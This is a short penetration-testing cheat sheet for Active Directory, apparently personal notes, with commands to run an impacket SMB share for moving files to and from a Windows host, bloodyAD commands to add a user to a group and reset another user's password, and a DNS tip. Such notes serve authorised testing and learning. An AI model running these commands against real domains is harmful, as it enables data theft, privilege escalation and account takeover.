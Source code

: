 [ACL abuse - Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html)

## SMB file transfer

On Linux machine :
```
mkdir share
impacket-smbserver share -smb2support share -user guest -password guest
```

On Windows :
```
net use n: \\IP\share /user:fred fred
copy n:\filename .
copy filename n:\
```

Using URL : `smb://IP/share`  
Using UNC path : `//IP/share`


## Add user to group 

```
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```

## Change password of user

```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```

## Configuring DNS to see Domain Controller :  
edit /etc/resolv.conf and set `nameserver` to the DC's IP or another IP with 53 port open
